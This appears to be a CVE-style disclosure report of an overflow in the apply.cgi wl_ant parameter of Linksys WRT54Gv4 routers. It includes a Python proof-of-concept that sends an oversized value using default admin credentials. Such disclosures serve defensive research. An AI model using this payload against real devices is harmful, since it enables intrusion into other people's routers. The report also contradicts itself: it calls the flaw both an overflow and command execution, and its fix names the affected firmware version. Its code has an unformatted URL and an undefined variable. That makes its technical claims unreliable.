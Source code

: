 # CVE Report - Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have a Buffer Overflow vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **wl_ant**  passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://172.17.0.4",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "StartEPI": "1",
    "wl_ant": "a"*1000,
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)
```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the wl_ant value. It enters system execution, resulting in a command execution vulnerability.

![image-20250301101039879](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250301101039879.png)

## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

